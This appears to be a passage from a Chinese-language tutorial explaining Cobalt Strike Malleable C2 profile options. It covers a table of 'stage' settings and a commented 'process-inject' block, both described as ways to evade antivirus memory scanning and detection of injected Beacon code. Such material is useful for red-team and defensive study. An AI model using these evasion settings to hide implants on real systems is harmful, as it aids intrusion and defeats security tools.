 

在 `stage` 部分，我们可以使用不同的命令来绕过一些防御机制和检测策略，如下表格所示：

| **命令/选项**    | **描述**                                                     |
| ---------------- | ------------------------------------------------------------ |
| prepend          | 用于避免某些扫描内存段的前几个字节以查找注入的 DLL 的痕迹的检测。 |
| strrep           | 用于替换指定的字符串，如默认的 "ReflectiveLoader" 字符串。   |
| sleep_mask       | 用于启用内存混淆，使 Beacon 在每次 sleep 之前都混淆自己所在的内存区域，并在 sleep 结束后解混淆。此功能专门绕过内存扫描的杀软(比如卡巴) |
| userwx           | 控制 Beacon 的反射加载器是否使用 RWX 权限来分配内存，设置为 `false` 可以避免引发警告和关注。 |
| allocator        | 用于改变默认的内存分配器 `VirtualAlloc`，可以选择使用 `HeapAlloc` 或 `MapViewOfFile` 来替代。 |
| module_(x64,x86) | 1是 `allocator` 选项的一部分，用于指定不同架构下的分配器。   |
| cleanup          | 控制是否在 Beacon stage 初始化完成后释放 stage 所占用的内存，设置为 `true` 可以避免留下内存痕迹。 |



### process-inject

`process-inject` 代码块是用于控制 Beacon 在注入到远程进程时的行为。在进行攻击时，攻击者可能会尝试将 Beacon 注入到一个正在运行的进程中以实现持久化和隐藏

以下代码是Cobalt Strike配置中进程注入部分的设置，它定义了Cobalt Strike如何在远程进程中注入和执行代码。特别的，它设置了使用"VirtualAllocEx"为远程进程分配内存，内存分配的最小值设为7814字节。它指定了新分配的内存区域不应该具有读、写和执行（RWX）权限，也就是不允许在分配和写入载荷之前，内存区域具有这样的权限。为了避免某些防御机制的检测，它还在注入的代码前添加了几个NOP（无操作）指令。此外，它定义了多种在远程进程中执行代码的方法，包括使用`CreateThread`，`NtQueueApcThread-s`，`SetThreadContext`，`CreateRemoteThread`和`RtlCreateUserThread`等函数，这提供了进程注入的灵活性和多样性，使得攻击更难被防御措施检测到。

```apl
process-inject {
    # 设置远程内存分配技术
    set allocator "VirtualAllocEx";

    # 形状注入内容和属性
    set min_alloc "7814";  # 设置内存分配的最小值为7814字节
    set userwx    "false";  # 分配的内存不应具有读、写和执行（RWX）权限
    set startrwx "false";  # 注入代码前，内存不应被设置为具有读、写和执行（RWX）权限

    transform-x86 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    transform-x64 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    // 指定在远程进程中执行代码的方法
    execute {
        CreateThread "ntdll.dll!RtlUserThreadStart+0x2285"; # 使用CreateThread函数执行代码
        NtQueueApcThread-s;  # 使用NtQueueApcThread-s函数执行代码
        SetThreadContext; # 使用SetThreadContext函数执行代码
        CreateRemoteThread; # 使用CreateRemoteThread函数执行代码
        CreateRemoteThread "kernel32.dll!LoadLibraryA+0x1000"; # 使用CreateRemoteThread函数并偏移执行代码
        RtlCreateUserThread; # 使用RtlCreateUserThread函数执行代码
    }
}

```
